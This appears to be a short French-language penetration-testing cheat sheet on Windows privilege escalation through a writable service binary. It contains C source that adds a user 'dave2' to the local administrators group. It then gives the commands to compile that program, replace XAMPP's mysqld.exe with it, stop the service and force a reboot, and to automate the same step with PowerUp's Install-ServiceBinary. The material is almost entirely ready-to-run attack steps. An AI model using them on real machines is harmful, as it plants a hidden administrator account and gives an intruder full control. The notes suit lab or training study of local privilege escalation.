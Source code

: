 # Créer service
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~sh
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Remplacer le service
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
net stop mysql
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Si ça ne fonctionne pas, vérifier si il se lance au redémarrage
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Vérifier si droits de redémarrer: **whoami /priv** (SeShutDownPrivilege)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
shutdown /r /t 0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# PowerUp
**Get-ModifiableServiceFile** liste services modifiables
Peut remplacer un service qui créé usager: **john** avec passe: **Password123!** comme admin 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Install-ServiceBinary -Name 'mysql'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
